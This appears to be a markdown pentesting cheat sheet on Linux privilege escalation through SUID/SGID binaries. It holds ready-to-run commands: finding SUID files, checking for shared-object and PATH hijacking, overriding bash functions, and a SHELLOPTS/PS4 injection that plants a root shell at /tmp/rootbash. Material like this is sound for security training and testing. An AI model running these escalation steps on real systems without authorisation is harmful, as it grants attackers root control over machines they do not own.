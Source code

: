 # SUID & SGID

SUID files executes with the privileges of the owner user.

SGID files executes with the privileges of the owner group.

## Find SUID & SGID

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
```

## Find Shell escape sequences

[gtfobins](https://gtfobins.github.io)

## Vulnerabilities

Some programs create SUID or SGID when installed. We should search for exploits on google, github or searchsploit.

## Shared Object Injection

When a program is executed, it will try to load the shared objects it requieres (.so). By using strace we can track those system calls and determine when a shared object is not found. If we can write to that directory, we can elevate to root.

```bash
strace /path/to/file 2>&1 | grep -iE "open|access|no such file"
```

## PATH env variable

If a program tries to execute another program without specifying the full path we can modify the PATH variable and add a directory we can write.

#### Finding vulnerable program

It is likely that the program that calls the other program have specified its name in the code as a string. We can use strings or strace to view if there is a call:

```bash
strings /path/to/file
strace -v -f -e execve /path/to/file 2>&1 | grep exec
```

## Shell features 1

If the program is executing another program but, differently from the example above the program is indicated with it's full path, we can see what is the version of the shell (< 4.2-048):

```bash
#Find program
strings /path/to/file
strace -v -f -e execve /path/to/file 2>&1 | grep service

#View shell version
/bin/sh --version
```

Create a function with the same name as a the /path/to/file. This functions can be exported so subprocesses have access to them, and the functions can take precedence over the actual executable beign called:

```bash
#Creating function
function /path/to/program { /bin/bash -p; }

#Exporting the function
export -f /path/to/program

#Executing the suid
/path/to/suid
```

## Shell features 2

If a SUID file runs another program via Bash this environment variables (SHELLOPTS) can be inherited.

```bash
#Test:
env -i SHELLOPTS=xtrace PS4='$(whoami)' /path/to/suid

#Exploit:
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash)' /path/to/suid

/tmp/rootbash -p
```
